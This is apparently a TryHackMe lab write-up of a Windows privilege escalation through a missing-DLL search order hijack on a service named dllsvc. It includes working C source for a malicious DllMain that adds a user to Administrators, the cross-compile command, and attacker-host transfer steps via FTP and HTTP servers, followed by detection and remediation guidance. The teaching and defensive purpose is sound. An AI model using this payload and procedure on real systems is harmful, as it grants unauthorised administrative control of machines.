# DLL Search Order Hijacking — Windows Privilege Escalation

> **Platform:** TryHackMe  
> **Room:** Windows PrivEsc Arena  
> **Task:** 6  
> **Operating System:** Windows 7 Professional  
> **Technique:** Missing DLL / DLL Search Order Hijacking  
> **Initial Context:** Standard local user  
> **Result:** Local user added to the Administrators group  
> **MITRE ATT&CK:** T1574.001 — Hijack Execution Flow: DLL  
> **CWE:** CWE-427 — Uncontrolled Search Path Element  

---

## Disclaimer

This write-up documents an authorised TryHackMe training environment.

Target addresses, VPN addresses, credentials, flags, and sensitive values have been removed or replaced with placeholders. The compiled DLL used in the laboratory is not included.

---

## Executive Summary

The Windows host contained a service named:

```text
dllsvc
```

The executable associated with the service was:

```text
dllhijackservice.exe
```

Runtime analysis with Microsoft Sysinternals Process Monitor showed that the service executable searched multiple directories for a missing library named:

```text
hijackme.dll
```

One of the attempted locations was:

```text
C:\Temp\hijackme.dll
```

Process Monitor recorded the request with the result:

```text
NAME NOT FOUND
```

The `C:\Temp` directory was writable by the low-privileged user. This allowed the missing DLL to be supplied at the exact path requested by the service.

The laboratory-provided `windows_dll.c` source file was transferred to Kali and modified so that its `DllMain` entry point executed:

```cmd
net localgroup administrators user /add
```

The source was compiled as `hijackme.dll` and transferred back to:

```text
C:\Temp\hijackme.dll
```

After the `dllsvc` service was restarted, its executable searched for the missing DLL again. This time, Windows found the attacker-controlled library and loaded it into the service process.

The DLL entry point executed under the service’s security context and added the low-privileged `user` account to the local Administrators group.

---

## Attack Path

```text
Run Process Monitor with elevated visibility
                    ↓
Filter events for dllhijackservice.exe
                    ↓
Filter for NAME NOT FOUND results
                    ↓
Filter for paths ending in .dll
                    ↓
Start the dllsvc service
                    ↓
Observe C:\Temp\hijackme.dll — NAME NOT FOUND
                    ↓
Confirm that C:\Temp is writable
                    ↓
Transfer windows_dll.c to Kali
                    ↓
Modify the DLL_PROCESS_ATTACH payload
                    ↓
Compile the source as hijackme.dll
                    ↓
Place hijackme.dll in C:\Temp
                    ↓
Restart dllsvc
                    ↓
Windows loads the planted DLL
                    ↓
The user is added to Administrators
```

---

# 1. Understanding DLL Search Order Hijacking

A Dynamic-Link Library is a module containing code and data that another executable or DLL can load and use.

Applications can load DLLs in two general ways.

## Fully qualified path

An application may request a specific absolute path:

```text
C:\Program Files\Application\library.dll
```

This gives Windows an exact location.

## DLL name without a full path

An application may request only:

```text
library.dll
```

Windows must then search a sequence of directories to locate it.

The precise search behaviour depends on several factors, including:

- How the application calls the loader
- Whether Safe DLL Search Mode is enabled
- The application directory
- Known DLLs
- System directories
- The Windows directory
- The current working directory
- Directories in the process environment
- Explicitly added DLL directories

The vulnerability appears when:

1. An elevated application requests a DLL without securely specifying its location.
2. The DLL does not already exist in a directory searched earlier.
3. A later searched directory is writable by a low-privileged user.
4. The attacker can place a DLL with the expected filename in that directory.

The loader may then select the attacker-controlled DLL.

---

# 2. Missing DLL Versus Existing DLL Hijacking

This task specifically involved a missing DLL.

The service attempted to load:

```text
hijackme.dll
```

but the file did not exist in the directories it searched.

Process Monitor therefore reported:

```text
NAME NOT FOUND
```

This is sometimes described as:

- DLL search order hijacking
- Missing DLL hijacking
- Phantom DLL hijacking
- DLL planting
- DLL preloading

The important condition is not merely that a DLL request failed.

A failed request becomes exploitable only when:

```text
The missing filename is predictable
        +
A searched directory is writable
        +
The process runs with greater privilege
        +
The process can be triggered
```

A `NAME NOT FOUND` result by itself is not proof of a vulnerability.

---

# 3. Starting Process Monitor

The Process Monitor utility was located at:

```text
C:\Users\user\Desktop\Tools\Process Monitor
```

`Procmon.exe` was started using:

```text
Run as administrator
```



Windows displayed a User Account Control credential prompt.



## Why Process Monitor was elevated

The target service runs outside the low-privileged user’s normal process context.

Elevating Process Monitor gives it the visibility required to capture system-wide activity generated by services and other privileged processes.

This elevation was used for observation and diagnosis. It was not the privilege-escalation vulnerability itself.

The low-privileged user’s command prompt remained a standard user context.

---

# 4. Configuring the Process Monitor Filters

Process Monitor captures a large volume of events. Filters were applied to isolate the activity relevant to the vulnerable service.

The following three filters were used.

## Process-name filter

```text
Process Name is dllhijackservice.exe then Include
```

This limits the results to events generated by the service executable.

## Missing-object filter

```text
Result is NAME NOT FOUND then Include
```



This isolates operations where the process attempted to access an object that did not exist.

## DLL-path filter

```text
Path ends with .dll then Include
```



This limits the results to DLL-related paths.

After adding the filters, `Apply` and `OK` were selected.

The resulting logic was conceptually:

```text
Process Name = dllhijackservice.exe
        AND
Result = NAME NOT FOUND
        AND
Path ends with .dll
```



---

# 5. Triggering the Service During Detection

The service was started from Command Prompt:

```cmd
sc start dllsvc
```



## Understanding the names

The service name was:

```text
dllsvc
```

The executable process captured by Process Monitor was:

```text
dllhijackservice.exe
```

These are related but not interchangeable.

```text
dllsvc
```

is the name used by the Service Control Manager.

```text
dllhijackservice.exe
```

is the process image launched for the service.

---

# 6. Identifying the Missing DLL

After the service started, Process Monitor recorded the locations searched for:

```text
hijackme.dll
```

The results showed several failed attempts, including paths under:

```text
C:\Program Files\DLL Hijack Service
C:\Windows\System32
C:\Windows
C:\Windows\System32\wbem
C:\Windows\System32\WindowsPowerShell\v1.0
C:\Temp
```

The critical event was:

```text
Process Name: dllhijackservice.exe
Operation:    CreateFile
Path:         C:\Temp\hijackme.dll
Result:       NAME NOT FOUND
```



## Why the C:\Temp result mattered

The event proved that:

1. The service attempted to access the exact path.
2. The requested DLL did not exist.
3. The filename was predictable.
4. The location was writable in the laboratory.

This created an opportunity to plant:

```text
C:\Temp\hijackme.dll
```

A real assessment should verify the directory ACL explicitly, for example:

```cmd
icacls C:\Temp
```

The assessment should confirm that the current low-privileged user can create files there.

---

# 7. Obtaining the DLL Source Code

The laboratory included a DLL source template at:

```text
C:\Users\user\Desktop\Tools\Source\windows_dll.c
```



The source was transferred to Kali for modification and cross-compilation.

---

# 8. Starting an FTP Upload Server on Kali

A dedicated transfer directory was opened on Kali, and a temporary FTP server was started:

```bash
python3 -m pyftpdlib -p 21 --write
```



## Command explanation

```bash
python3 -m pyftpdlib
```

Runs the `pyftpdlib` FTP server module.

```bash
-p 21
```

Configures the FTP server to listen on TCP port 21.

```bash
--write
```

Allows the anonymous FTP user to upload files into the server’s working directory.

The server listened on:

```text
0.0.0.0:21
```

This means it accepted connections through the available Kali interfaces.

## Security note

Anonymous write access is unsafe on a production or untrusted network.

It was used only inside the isolated training environment and should be stopped immediately after the file transfer.

---

# 9. Transferring windows_dll.c to Kali

From Windows, the Kali FTP server was accessed using:

```cmd
ftp <KALI_IP>
```

The anonymous account was used:

```text
Username: anonymous
Password: <blank or arbitrary value>
```

At the FTP prompt, the source file was uploaded:

```text
put windows_dll.c
```



The FTP messages included:

```text
125 Data connection already open. Transfer starting.
226 Transfer complete.
```

These responses confirmed that the upload completed successfully.

The file was then available in the Kali directory from which the FTP server had been started.

---

# 10. Modifying the DLL Source

The source file was opened in a text editor on Kali.

The DLL entry point was configured as follows:

```c
#include <windows.h>

BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }

    return TRUE;
}
```



## DllMain

```c
DllMain
```

is the optional entry-point function called by Windows when a DLL is loaded or unloaded.

## DLL_PROCESS_ATTACH

```c
DLL_PROCESS_ATTACH
```

indicates that the DLL has been loaded into a process.

The payload was placed inside this condition so it would run when the service loaded `hijackme.dll`.

## Payload command

```cmd
net localgroup administrators user /add
```

adds the local account named:

```text
user
```

to the local Administrators group.

## system()

```c
system(...)
```

passes the supplied string to the Windows command interpreter.

## ExitProcess(0)

```c
ExitProcess(0)
```

terminates the process after the DLL payload finishes.

This behaviour may also terminate or disrupt the service process.

## Technical limitation

Complex operations inside `DllMain` are not recommended for legitimate software.

`DllMain` executes while the Windows loader lock is held, and calling functions that load other components or perform complex process activity can lead to deadlocks or unstable behaviour.

The implementation was used only as a controlled laboratory proof of concept.

The room source used:

```cmd
cmd.exe /k
```

which executes the command and keeps the command interpreter open.

For a one-time non-interactive operation, `/c` would normally be cleaner, but the write-up preserves the code used in the laboratory.

---

# 11. Compiling the DLL on Kali

The modified source was compiled using the MinGW cross-compiler:

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
```



## Command explanation

```text
x86_64-w64-mingw32-gcc
```

is a GCC-based cross-compiler that runs on Linux and produces 64-bit Windows binaries.

```text
windows_dll.c
```

is the source file being compiled.

```text
-shared
```

instructs the compiler to create a shared library rather than a normal executable.

On Windows, the output is a DLL.

```text
-o hijackme.dll
```

sets the output filename to the exact missing DLL name identified with Process Monitor.

## Architecture requirement

The DLL architecture must be compatible with the process loading it.

A 64-bit process requires a compatible 64-bit DLL, while a 32-bit process requires a compatible 32-bit DLL.

The laboratory used the 64-bit MinGW compiler.

---

# 12. Transferring hijackme.dll Back to Windows

A temporary HTTP server was started from the directory containing the compiled DLL:

```bash
python3 -m http.server 80
```

From Windows, the server was opened using:

```text
http://<KALI_IP>/
```

The generated DLL was selected and saved as:

```text
C:\Temp\hijackme.dll
```



The filename and location had to match the Process Monitor finding exactly:

```text
C:\Temp\hijackme.dll
```

A differently named file or a file in an unsearched directory would not satisfy the service’s DLL request.

---

# 13. Establishing the Initial Privilege State

Before triggering the planted DLL, local Administrators group membership was checked:

```cmd
net localgroup administrators
```

The initial output included:

```text
Administrator
TCM
```

The account:

```text
user
```

was not yet listed.

This established the pre-exploitation state.

---

# 14. Restarting the Vulnerable Service

The service was stopped and started using:

```cmd
sc stop dllsvc & sc start dllsvc
```

## Command explanation

```cmd
sc stop dllsvc
```

requests that the Service Control Manager stop the service.

```cmd
&
```

is the Command Prompt command separator.

It causes the second command to run after the first command completes, regardless of whether the first command succeeds.

```cmd
sc start dllsvc
```

starts the service again.

Using separate commands can provide clearer output:

```cmd
sc stop dllsvc
sc start dllsvc
```

When the service started, `dllhijackservice.exe` again requested:

```text
hijackme.dll
```

This time, the loader found:

```text
C:\Temp\hijackme.dll
```

and loaded it into the service process.

---

# 15. Verifying the Privilege Escalation

After restarting the service, Administrators group membership was checked again:

```cmd
net localgroup administrators
```

The final output included:

```text
Administrator
TCM
user
```



The presence of:

```text
user
```

confirmed that the planted DLL executed with sufficient privilege to modify local administrative group membership.

The privilege transition was:

```text
Standard local user
        ↓
Member of the local Administrators group
```

The existing user session may still use the access token created before the group-membership change.

The user should normally log off and log back on before the new Administrators membership is fully represented in a new access token.

---

# 16. What Happened Behind the Scenes

The complete internal sequence was:

```text
The Service Control Manager starts dllsvc
                    ↓
dllhijackservice.exe begins running
                    ↓
The executable requests hijackme.dll
without a securely fixed absolute path
                    ↓
Windows searches the process's DLL locations
                    ↓
C:\Temp is one of the searched locations
                    ↓
Before exploitation:
C:\Temp\hijackme.dll does not exist
                    ↓
Process Monitor records NAME NOT FOUND
                    ↓
The low-privileged user plants hijackme.dll
                    ↓
The service starts again
                    ↓
Windows reaches C:\Temp during the search
                    ↓
The loader maps hijackme.dll into the service process
                    ↓
Windows calls DllMain with DLL_PROCESS_ATTACH
                    ↓
The DLL executes:
net localgroup administrators user /add
                    ↓
The user is added to the Administrators group
```

The DLL did not create a separate privileged process first.

It was loaded directly inside the existing service process and inherited that process’s security context.

---

# 17. Why the Attack Worked

The attack depended on all of the following conditions:

1. The service attempted to load `hijackme.dll`.
2. The DLL was requested without a secure absolute path.
3. The expected DLL was missing from earlier searched locations.
4. `C:\Temp` was included in the observed search sequence.
5. The low-privileged user could create files in `C:\Temp`.
6. The user knew the required filename.
7. The service ran with enough privilege to modify Administrators membership.
8. The service could be stopped and started or otherwise triggered.
9. The planted DLL architecture matched the service process.
10. Endpoint protection did not block the DLL.

Removing any one of these conditions could prevent exploitation.

---

# 18. Process Monitor Result Interpretation

The important Process Monitor fields were:

| Field | Meaning |
|---|---|
| Process Name | The executable generating the request |
| Operation | The file or Registry operation attempted |
| Path | The exact resource being accessed |
| Result | Whether the operation succeeded |
| Detail | Additional requested-access information |

For the vulnerable event:

```text
Process Name : dllhijackservice.exe
Operation    : CreateFile
Path         : C:\Temp\hijackme.dll
Result       : NAME NOT FOUND
```

`CreateFile` does not necessarily mean that the process intended to create a new file.

The Windows `CreateFile` API is also used to open existing files and devices.

In this case, the service was attempting to open the DLL for loading.

---

# 19. Security Classification

## Vulnerability

```text
DLL Search Order Hijacking Through a Missing DLL
```

## Attack Type

```text
DLL Planting / DLL Preloading
```

## Impact

```text
Local Privilege Escalation
```

## MITRE ATT&CK

```text
T1574.001 — Hijack Execution Flow: DLL
```

This technique covers abuse of Windows DLL loading behaviour to execute attacker-controlled code inside another process.

## CWE

```text
CWE-427 — Uncontrolled Search Path Element
```

This classification applies when an application uses a fixed or controlled search path, but one of the searched locations can be written to by an unintended actor.

---

# 20. Detection Opportunities

Defenders can detect this activity through several sources.

## Runtime DLL monitoring

Monitor:

- DLLs loaded from temporary directories
- DLLs loaded from user-writable directories
- Missing DLL requests from privileged processes
- Unexpected DLLs loaded by Windows services
- DLLs with unusual or absent signatures

## File monitoring

Monitor creation of DLL files under:

```text
C:\Temp
C:\Users\Public
%TEMP%
%APPDATA%
```

Particularly suspicious activity includes a DLL being created shortly before a service restart.

## Service monitoring

Monitor:

- `sc start`
- `sc stop`
- Unexpected service restarts
- Service failures immediately after DLL loading
- Changes to service process behaviour

## Privilege-change monitoring

Monitor:

```cmd
net localgroup administrators <USER> /add
```

Also monitor changes to the local Administrators group through Windows security events and endpoint telemetry.

## Process Monitor-style investigation

During an assessment, search for:

```text
Result = NAME NOT FOUND
Path ends with .dll
Process runs with elevated privileges
```

Then determine whether any attempted directory is writable by a standard user.

---

# 21. Remediation

Recommended remediation actions include:

- Load DLLs using fully qualified paths.
- Remove writable temporary directories from privileged process search paths.
- Remove untrusted directories from the service environment.
- Use secure DLL loading functions and flags.
- Restrict write access to directories searched by privileged applications.
- Place required DLLs in protected application directories.
- Use `SetDefaultDllDirectories` where supported.
- Use appropriate `LoadLibraryEx` search flags.
- Apply AppLocker or Windows Defender Application Control.
- Require trusted code signing where practical.
- Monitor DLL loads from temporary and user-writable paths.
- Audit services for missing or optional DLL dependencies.
- Remove unused service dependencies.
- Apply file-integrity monitoring to service directories.
- Restore unauthorised local group changes.
- Investigate any unexpected DLLs placed in `C:\Temp`.

The most direct development correction is:

```text
Do not request a security-sensitive DLL using only its filename.
Use a trusted, fully qualified path.
```

---

# 22. Lessons Learned

Process Monitor provided direct runtime evidence of the vulnerable DLL request.

The most important investigation questions were:

```text
Which process is requesting the DLL?
What exact DLL name is requested?
Which directories are searched?
Where does NAME NOT FOUND occur?
Which searched directories are writable?
Which account runs the process?
Can the process or service be triggered?
Does the DLL architecture match the process?
```

The central lesson is:

> A privileged process should never search an attacker-writable directory for code that it intends to load.

A missing DLL request is not automatically exploitable. It becomes dangerous when the search reaches a directory controlled by a less-privileged user.

---

## Tools Used

| Tool | Purpose |
|---|---|
| Process Monitor | Capture runtime DLL search activity |
| User Account Control | Elevate Process Monitor for system-wide visibility |
| `sc.exe` | Start, stop, and restart the vulnerable service |
| `pyftpdlib` | Receive the DLL source file on Kali |
| Windows FTP client | Upload `windows_dll.c` to Kali |
| Nano or another editor | Modify the DLL source |
| MinGW GCC | Compile the Windows DLL on Kali |
| Python HTTP Server | Transfer the compiled DLL to Windows |
| `net localgroup` | Verify Administrators group membership |

---

## Evidence Summary

| Evidence | Finding |
|---|---|
| Procmon elevation | Runtime activity of the service could be captured |
| Procmon filters | Results limited to missing DLL requests |
| Service start | `dllsvc` triggered the DLL search |
| Missing DLL event | `C:\Temp\hijackme.dll` returned `NAME NOT FOUND` |
| Source transfer | `windows_dll.c` uploaded to Kali |
| Source modification | `DLL_PROCESS_ATTACH` added `user` to Administrators |
| Compilation | Source compiled as `hijackme.dll` |
| DLL placement | Compiled DLL saved to `C:\Temp` |
| Service restart | The service searched for the DLL again |
| Final verification | `user` appeared in the Administrators group |

---

## References

- Microsoft Sysinternals — Process Monitor
- Microsoft Learn — Dynamic-Link Library Search Order
- Microsoft Learn — Dynamic-Link Library Security
- Microsoft Learn — DllMain Entry Point
- MITRE ATT&CK T1574.001 — Hijack Execution Flow: DLL
- CWE-427 — Uncontrolled Search Path Element
